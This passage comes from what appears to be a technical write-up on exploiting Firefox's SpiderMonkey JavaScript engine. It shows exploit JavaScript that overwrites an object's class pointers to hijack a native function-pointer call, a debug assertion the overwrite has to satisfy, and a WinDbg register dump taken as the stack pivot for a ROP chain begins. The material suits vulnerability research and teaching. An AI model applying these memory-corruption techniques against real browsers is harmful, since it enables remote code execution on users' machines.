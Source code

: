 ```JavaScript
MemoryBackingObject.set(Pwn.Read(TargetcOps, 0x50), 0x30);
MemoryBackingObject.set(new Int64('0xdeadbeefbaadc0de').bytes(), 0x30);

print("[*] Overwriting Target's clasp_ @ " + TargetClasp_Address.toString(16));
Pwn.WritePtr(TargetClasp_Address, ClassMemoryBackingAddress);
print("[*] Overwriting Target's shape clasp_ @ " + TargetBaseClasp_Address.toString(16));
Pwn.WritePtr(TargetBaseClasp_Address, ClassMemoryBackingAddress);

//
// Let's pull the trigger now.
//

print('[*] Pulling the trigger bebe..');
Target.im_falling_and_i_cant_turn_back = 1;
```

Note that we also overwrite another field in the shape object as the debug version of the JavaScript shell has an assert that ensures that the object class retrieved from the shape is identical to the one in the object group. If you don't, here is the crash you will encounter:

```text
Assertion failure: shape->getObjectClass() == getClass(), at c:\Users\over\mozilla-central\js\src\vm/NativeObject-inl.h:659
```

### Pivoting the stack

As always with modern exploitation, hijacking control-flow is the beginning of the journey. We want to execute arbitrary native code in the JavaScript. To exploit this traditionally with ROP we have three of the four ingredients:

* We know where things are in memory,
* We have a way to control the execution,
* We have arbitrary space to store the chain and aren't constrained in any way,
* But we do not have a way to pivot the stack to a region of memory we have under our control.

Now if we want to pivot the stack to a location under our control, we need to have some sort of control of the CPU context when we hijack the control-flow. To understand a bit more with which cards we are playing with, we need to investigate how this function pointer is invoked and see if we can control any arguments, etc.

```C++
/** Add a property named by id to obj. */
typedef bool (*JSAddPropertyOp)(JSContext* cx, JS::HandleObject obj,
                                JS::HandleId id, JS::HandleValue v);
```

And here is the CPU context at the hijack point:

```text
0:000> r
rax=000000000001fff1 rbx=000000469b9ff490 rcx=0000020a7d928800
rdx=000000469b9ff490 rsi=0000020a7d928800 rdi=deadbeefbaadc0de
rip=00007ff658b7b3a2 rsp=000000469b9fefd0 rbp=0000000000000000
 r8=000000469b9ff248  r9=0000020a7deb8098 r10=0000000000000000
r11=0000000000000000 r12=0000020a7da02e10 r13=000000469b9ff490
r14=0000000000000001 r15=0000020a7dbbc0b0
iopl=0         nv up ei pl nz na pe nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
js!js::NativeSetProperty<js::Qualified>+0x2b52:
00007ff6`58b7b3a2 ffd7            call    rdi {deadbeef`baadc0de}
```

